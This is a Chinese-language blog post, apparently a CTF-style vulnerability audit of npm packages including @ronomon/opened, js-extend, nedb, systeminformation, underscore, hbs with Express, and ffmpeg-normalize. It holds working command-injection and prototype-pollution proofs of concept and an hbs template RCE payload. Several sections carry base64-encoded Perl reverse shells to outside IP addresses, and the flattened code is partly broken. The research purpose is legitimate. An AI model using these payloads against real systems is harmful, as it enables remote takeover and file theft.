


1. @ronomon/opened 这个漏洞的原因诞生应该是最简单的哪一类了，官方给了个范例：
1 2 3 4 5 6 7 8 9 10 11 12 var Opened = require ('@ronomon/opened' );var paths = ["/etc/passwd/$(cat /flag)" ];Opened.files(paths, function (error, hashTable ) if (error) throw error; paths.forEach( function (path ) console .log(path + ' open=' + hashTable[path]); } ); } );
打个断点，直接就可以看见
作者仅仅是对双引号进行了过滤，其他啥也没管，然后就命令执行，在这种情况下我们可以轻而易举的使用$()绕过。
getshell
2.js-extend 这个的应该算是很常见的一个原型链污染的了，先整个官方的范例：
1 2 3 4 5 6 7 var extend = require ('js-extend' ).extend var obj1 = { name : 'Jonny' };var obj2 = { lastName : 'Quest' }; extend(obj1, obj2); console .log(obj1);
直接进去撸源码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 var extend = function (obj ) if (typeof obj !== 'object' ) throw obj + ' is not an object' ; var sources = slice.call(arguments , 1 ); each.call(sources, function (source ) if (source ) for (var prop in source if (typeof source[prop] === 'object' && obj[prop] extend.call(obj, obj[prop], source[prop]); } else { obj[prop] = source[prop]; } } } }); return obj }
稍微分析一下源码，可以理解为这段源码是怎么组合两个json数据的呢，首先使用slice将整个数组分开来，之后开始循环第二个数组，
其中obj为第一个数组，sources为传入的第二个数组，然后进行遍历，做出来的操作为-》
如果遍历到的sources中的某个键为object，则递归的继续遍历这个数组，如果不是的话就直接将遍历到的key值的属性付给第一个数组。
这两个数组的话：
1 2 var obj1 = { name : 'Jonny' };var obj2 = { lastName : 'Quest' };
程序会尝试遍历第二个数组，之后将lastName属性赋值给obj1。其中对于obj2的属性名字没有做出任何过滤。在这种情况下，如果obj的数组为：
和下面的一段代码是等效的
1 2 3 a = {} a['__proto__' ]['polluted' ] = {polluted :"Yes! Its Polluted" }['polluted' ] console .log({}.polluted);
3.nedb 这是一个轻量级的nosql数据库，嵌入式数据库，（其实就是个db文件）
具体使用情况如下：
1 2 3 4 5 6 const nedb = require ('nedb' );const db = new nedb({ filename: './data/save.db' , autoload: true });
这样就会创建一个数据库文件了，插入数据：
1 2 3 4 5 6 db.insert( [ { name : 'tom' }, { name : 'jerry' } ] , (err, ret ) => {});
查询数据：
1 2 3 4 db.findOne({ name: 'tom' }, (err, ret ) => {console .log(ret);});
查询的话则需要异步的来进行一个查询
查询多项：
1 2 3 4 5 6 7 8 9 db.find({ name: { $in: ['tom' , 'jerry' ] } }) .sort({ _id: -1 }) .exec((err, ret ) => {});
如果是查询多项，将会返回一个数组：
1 2 3 4 5 6 7 8 db.update({ _id: '1' }, { $set: { name: 'kitty' } }, (err, ret ) => {});
更新某一项
后面的操作都是类似的，就不一一演示了
1 2 3 4 5 6 7 8 9 10 db.remove({ _id: '1' }, (err, ret ) => {}) db.remove({ name: 'kitty' }, { multi: true }, (err, ret ) => {});
其实在这里使用set的时候就隐隐约约感觉不对了，果然是有洞的
1 2 3 4 5 6 7 8 9 10 const Datastore = require ("nedb" );const db = new Datastore();db.insert({hello : 'world' }, (err ) => { db.update({hello : 'world' }, {$set : {'__proto__.polluted_1' : true }}, {}, (err ) => { console .log(({}).polluted_1); }); db.update({hello : 'world' }, {$set : {'constructor.prototype.polluted_2' : true }}, {}, (err ) => { console .log(({}).polluted_2); }); });
我他妈直接开启F5进去调
发现她的修改原理其实就是push代码..所以就出现了原型链的问题。
感觉这个很适合用于出题。。
版本需求：
si.inetLatency 老样子，根据范例随便写段东西然后F5开始调
慢慢跟着走，能够发现关键函数：
当我们是linux的时候，就会执行ping指令
1 'PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.\n64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.019 ms\n64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.023 ms\n\n--- 127.0.0.1 ping statistics ---\n2 packets transmitted, 2 received, 0% packet loss, time 1015ms\nrtt min/avg/max/mdev = 0.019/0.021/0.023/0.002 ms\n'
重新下断点，可以看见有一个过滤函数：

原本想试试看数组绕过的，结果发现还有这么一句话：
1 2 3 4 if (typeof host !== 'string' ) { if (callback) { callback(null ); } return resolve(null ); }
跟进可以发现过滤如下：
感觉这个waf绕不过去，看看github上的提交
可是感觉还是很安全，我没办法绕过这个函数。。。欸，后来又看到一个外国老哥的提交，给了我一些灵感，他是这样写的：
1 2 const si = require ('systeminformation' );si.versions({toString : () => { console .log("This is a PoC" ) }});
其中提到，对类型的check不够，所以导致可能绕过。其中给出的版本为：小于5.6.11，先试试看——
之后又栽在了这里，感觉很难受啊，这咋办呢。这个提醒了我toString，看看js的toString和PHP的是一个东西吗
emmm
1 2 3 4 5 const test = ()=> { console .log('123' ); } console .log(test);;console .log(test.toString());
这个会带有区别
toString就是将一个对象打印出来，但是我们没办法去设定toString的方法，她也不会在我们类被当作字符串处理的时候自动调用，所以还是有区别的。
5.underscore 概述 underscore 是 JavaScript 的函数式编程助手库。
此软件包的受影响版本容易受到通过该template函数进行的任意代码注入的攻击，特别是当该variable选项_.templateSettings因未经过清理而被提取时。
版本 1.12.0
POC 1 2 3 const _ = require ('underscore' );_.templateSettings.variable = "a = this.process.mainModule.require('child_process').execSync('touch HELLO')" ; const t = _.template("" )();
复现过程： 先翻一手官方文档，看看正常的情况是怎么用这个函数的：
1 2 var compiled = _.template("hello: <%= name %>" );compiled({name : 'moe' });
官方给出的范例：
1 2 3 4 5 6 7 8 9 10 11 const _ = require ('underscore' );var compiled = _.template("hello: <%= name %>" );b = compiled({name : 'moe' }); console .log(b);var compiled = _.template("<% print('Hello ' + epithet); %>" );compiled({epithet : "stooge" });
感觉就和ejs很像，这个也是模板渲染函数，不管了走一个F5，单步调几下，很快就可以发现一个可疑的地方：
这里直接new了 Fucntion( settings.variable ),若我们赋值了，则会形成这样的结果：
1 2 3 4 5 6 7 (function anonymous (a = this .process.mainModule.require ('child_process' ).execSync('touch HELLO' ),_ })
直接造成了代码执行的结果，如果是未给settings.varibale赋值的情况，则是：
1 2 3 4 5 6 7 8 9 10 11 (function anonymous (obj,_ var __t,__p='' ,__j=Array .prototype.join,print=function (arguments ,'' );};with (obj||{} )__p+='hello: ' + ((__t=( name ))==null ?'' :__t)+ '' ;} return __p;})
这个指令很容易和原型链污染一起被执行，但是我又冒出了一个想法，难道一定要构造这样：
const t = _.template(“”)();
无参数才可以吗，利用官方的实例，我发现果然报错了
跟踪打印之后发现了我的函数变成了这样子的一个情况:
我和正常生成的函数进行一下对比：
1 2 3 4 5 6 7 8 9 (function anonymous (epithet = this .process.mainModule.require ('child_process' ).execSync('touch 1234' ),_ var __t,__p='' ,__j=Array .prototype.join,print=function (arguments ,'' );};__p+='' ; print('Hello ' + epithet); __p+='' ; return __p;})
1 2 3 4 5 6 7 8 9 10 11 (function anonymous (obj,_ var __t,__p='' ,__j=Array .prototype.join,print=function (arguments ,'' );};with (obj||{} )__p+='' ; print('Hello ' + epithet); __p+='' ; } return __p;})
发现少了一段with的函数
1 'var __t,__p=' ',__j=Array.prototype.join,print=function(){__p+=__j.call(arguments,' ');};\nwith(obj||{}){\n__p+=' ';\n print(' Hello ' + epithet); \n__p+=' ';\n}\nreturn __p;\n'
回看之后是在这个语句上添加的：
这就很尴尬了，比较我又不能控制这段函数，只能在再想别的办法了
若无参数形成的函数如下：
1 2 3 4 5 6 7 8 9 (function anonymous (name = this .process.mainModule.require ('child_process' ).execSync('echo 123>>HELLO' ),_ var __t,__p='' ,__j=Array .prototype.join,print=function (arguments ,'' );};__p+=' ' + ((__t=( name ))==null ?'' :__t)+ '' ;return __p;})
有参数：
1 2 3 4 5 6 7 8 9 (function anonymous (name = this .process.mainModule.require ('child_process' ).execSync('echo 123>>HELLO' ),_ var __t,__p='' ,__j=Array .prototype.join,print=function (arguments ,'' );};__p+=' ' + ((__t=( name ))==null ?'' :__t)+ '' ;return __p;})
两者生成的参数是一样的，问题就在于若输入参数了，name就不再是我们设置的默认值，这样的话就会导致参数不再受控制。
怪不得这个漏洞只有5.5分，这个的利用条件过于苛刻了,先不说哪个开发人员没事会用这个函数 ，又只会在很少的情况下出现定义了模板却不赋值的情况
1 2 3 4 5 6 7 8 var obj = {}obj.__proto__.variable = "name = this.process.mainModule.require('child_process').execSync('echo 123>>HELLO')" ; var compiled = _.template(" <%= name %>" );var a; var c = compiled(a);console .log(c);
6. hbs框架与express的缺陷 1 https://blog.shoebpatel.com/2021/01/23/The-Secret-Parameter-LFR-and-Potential-RCE-in-NodeJS-Apps/
这是express的天生的问题了
1 2 3 4 5 6 7 8 9 10 11 router.get('/' , function (req, res, next ) res.render('index' ) }); router.post('/' , function (req, res, next ) var profile = req.body.profile res.render('index' , profile) }); module .exports = router;
看这两行代码，感觉是不是毫无缺陷？但是却会造成很严重的后果，打开DEBUG模式跟着调，我们可以很明显的发现我们的第二段输入被设计到了options当中
和ejs一样，我们快进到 tryRender函数里，这里用的hbs框架，所以就会自动的切进去之后会进入一长串的缓存处理当中，可以忽略不计，直到这一行
我们发现options又被原封不动的导入进来了在144行当中又取了options的layout
之后就直接的取出layout中的路径

当能够读取到东西的时候，调用 tryReadFileAndCache函数。
读取文件，再之后就直接
把layout直接渲染上去了，造成了任意文件读取。
总结：
其实造成这样的问题有两个
express的渲染机制问题，express会毫无条件的接收所有的东西，并允许这些插件进行互相的调用
开发者不应该接收全部的参数，而应该选择的进行接收，但是，例如这样子来写：
但是即使是这样的操作，也依然可能导致被读取文件，因为可以进行原型链的污染。这样子会导致用户每次渲染参数都会导致被读取任意文件！
poc:
1 2 3 4 5 6 7 8 router.post('/' , function (req, res, next ) var obj = {} obj.__proto__.layout = "../../../../../../../../flag.txt" console .log([].layout); var profile = req.body.profile res.render('index' , {profile}) });
但是仅仅是任意文件读取并不能兄弟满足，如果我们可以RCE就更好了。
RCE文章
1 https://blog.z3ratu1.cn/%5BXCTF%5D%E5%8D%8E%E4%B8%BA%E7%AC%AC%E4%B8%89%E5%9C%BA.html
RCE的前提：
hbs的版本 低于 4.0.3
能够上传带有后缀的文件(不是hbs结尾的也完全没问题)
上传文件1.jpg：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 {% raw %} {{#with "s" as |string|}} {{#with "e" }} {{#with as |conslist|}} {{this.pop }} {{this.push (lookup "constructor" )}} {{this.pop }} {{#with as |codelist|}} {{this.pop }} {{this.push "return process.mainModule.require('child_process').exec('echo cGVybCAtZSAndXNlIFNvY2tldDskaT0iODEuNjkuMjAxLjY1IjskcD0xMjM0O3NvY2tldChTLFBGX0lORVQsU09DS19TVFJFQU0sZ2V0cHJvdG9ieW5hbWUoInRjcCIpKTtpZihjb25uZWN0KFMsc29ja2FkZHJfaW4oJHAsaW5ldF9hdG9uKCRpKSkpKXtvcGVuKFNURElOLCI+JlMiKTtvcGVuKFNURE9VVCwiPiZTIik7b3BlbihTVERFUlIsIj4mUyIpO2V4ZWMoIi9iaW4vc2ggLWkiKTt9Oyc=|base64 -d|bash');" }} {{this.pop }} {{#each {{#with string.sub.apply 0 codelist)}} {{this }} {{/with {{/each {{/with {{/with {{/with {{/with {% endraw %}
回到
成功getshell！！
7.ffmpeg-normalize 版本：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 { "name" : "test" , "version" : "1.0.0" , "description" : "" , "main" : "index.js" , "scripts" : { "test" : "echo \"Error: no test specified\" && exit 1" }, "keywords" : [], "author" : "" , "license" : "ISC" , "dependencies" : { "ffmpeg-normalize" : "^1.8.0" } }
该库是用于处理音频的，可以将我们的音频的声音大小统一（？）我不是很懂，官方给出的使用范例：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 const normalize = require ('ffmpeg-normalize' ); normalize({ input: 'input.mp4' , output: 'output.mp4' , loudness: { normalization: 'ebuR128' , target: { input_i: -23 , input_lra: 7.0 , input_tp: -2.0 } }, verbose: true }) .then(normalized => }) .catch(error => });
漏洞产生于input模块，poc：
1 2 3 4 5 6 7 8 9 10 11 12 const normalize = require ('ffmpeg-normalize' ); normalize({ input: 'input.mp4; touch HACKED; #' , output: 'output.mp4' , loudness: { normalization: 'ebuR128' , target: {input_i : -23 } }, verbose: false }).then(normalized =>error =>console .log()});
老样子，在input这里打个断点，函数还是短的，过了几步就看见：
还就那个执行。
直接命令拼接然后执行了，那是真的简单
所以我们只需要用冒号，然后扣任意代码，之后用#号省略后面的即可！
感觉很多npm的开发人员都是没有什么安全意识，直接拼接命令然后exec。
随手弹个shell
1 2 3 4 5 6 7 8 9 10 11 12 13 const normalize = require ('ffmpeg-normalize' ); normalize({ input: 'input.mp4;echo cGVybCAtZSAndXNlIFNvY2tldDskaT0iMS4xNS4yMjQuMTE0IjskcD0xMjM0O3NvY2tldChTLFBGX0lORVQsU09DS19TVFJFQU0sZ2V0cHJvdG9ieW5hbWUoInRjcCIpKTtpZihjb25uZWN0KFMsc29ja2FkZHJfaW4oJHAsaW5ldF9hdG9uKCRpKSkpKXtvcGVuKFNURElOLCI+JlMiKTtvcGVuKFNURE9VVCwiPiZTIik7b3BlbihTVERFUlIsIj4mUyIpO2V4ZWMoIi9iaW4vc2ggLWkiKTt9Oyc=|base64 -d|bash #' , output: 'output.mp4' , loudness: { normalization: 'ebuR128' , target: {input_i : -23 } }, verbose: false }).then(normalized =>error =>console .log(123 )});
8.prisma 这是一个用于管理数据库连接的第三方库
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 datasource db { provider = "postgresql" url = env("DATABASE_URL" ) } generator client { provider = "prisma-client-js" } model Post { id Int @id @default (autoincrement()) title String content String ? published Boolean @default (false ) author User? @relation(fields: [authorId], references : [id]) authorId Int? } model User { id Int @id @default (autoincrement()) email String @unique name String ? posts Post[] }
9. 关于hbs还就那个踩坑 卷土重来之审计hbs的渲染完整流程。
原本是在做出上面的研究之后想自己搭建一个题目，结果还就疯狂踩坑人了。我真是个大啥比,码的.我在搭环境的时候遇见了一个坑:
1 npm install 有时候并不会根据你得package里面的版本走,你可能需要去node_module确认一下
我在写这篇文章的时候就因为上当了,
这里明明给我写的4.0.1,但是实际上进去包里的时候却是4.1.2. 导致payload一直打不通…(为此我一直开着debug模式对着hbs的渲染盯了两天,脑袋都要炸球了),最后终于折腾好了,我们可以想象一个场景.如果我们找到一个用hbs网站处于4.1以下的版本，并且是express，之后如果满足如下两个条件就可以RCE了
原型链污染 原型链污染的情况，举例（这里我用了PWN2WIN的源码修改了修改来用），核心在这里：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 app.get("/" , async (req, res) => { res.render("index" , {services}) }) app.post("/change_status" , (req, res ) => { let patch = [] Object .entries(req.body).forEach(([service, status] ) => { if (service === "status" ){ res.status(400 ).end("Cannot change all services status" ) return } patch.push({ "op" : "replace" , "path" : "/" + service, "value" : status }) }); jsonpatch.applyPatch(services, patch) if ("offline" in Object .values(services)){ services.status = "offline" } res.json(services) }) app.post('/upload' , upload.single('file' ), function (req, res, next ) var file = req.file; res.send({ret_code : '0' ,"filename" :file.path}); });
因为jsonpatch这个是存在原型链污染漏洞的，所以可以这样来污染layout属性
这样子可以读取任意文件，并且如果存在文件上传(这里的文件不拘泥于任何后缀都可以被成功编译)，上传如下恶意文件。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 {% raw %} {{#with "s" as |string|}} {{#with "e" }} {{#with as |conslist|}} {{this.pop }} {{this.push (lookup "constructor" )}} {{this.pop }} {{#with as |codelist|}} {{this.pop }} {{this.push "return process.mainModule.require('child_process').exec('echo cGVybCAtZSAndXNlIFNvY2tldDskaT0iODEuNjkuMjAxLjY1IjskcD0xMjM0O3NvY2tldChTLFBGX0lORVQsU09DS19TVFJFQU0sZ2V0cHJvdG9ieW5hbWUoInRjcCIpKTtpZihjb25uZWN0KFMsc29ja2FkZHJfaW4oJHAsaW5ldF9hdG9uKCRpKSkpKXtvcGVuKFNURElOLCI+JlMiKTtvcGVuKFNURE9VVCwiPiZTIik7b3BlbihTVERFUlIsIj4mUyIpO2V4ZWMoIi9iaW4vc2ggLWkiKTt9Oyc=|base64 -d|bash');" }} {{this.pop }} {{#each {{#with string.sub.apply 0 codelist)}} {{this }} {{/with {{/each {{/with {{/with {{/with {{/with {% endraw %}
这样就可以getshell了。
未对输入进行严格取值 这种情况更加常见，因为程序员们喜欢这样子做来显得代码更加有条理性，（也更方便）
1 2 3 4 5 router.post('/' , function (req, res, next ) var profile = req.body.profile res.render('index' , profile) })
直接将用户的取值进行渲染，但是用户的输入可以是数组，所以
即可任意文件读取并进行RCE
官方修复： 在新版本当中官方对hbs的渲染做出了限制（这让我头大了很久
新版本中，不再会直接进行渲染了，而是会check用户的输入，如果渲染的目标为对象，则会抛出异常。
这里还对异常信息的抛出做出了 check，必须是字符串才可以。。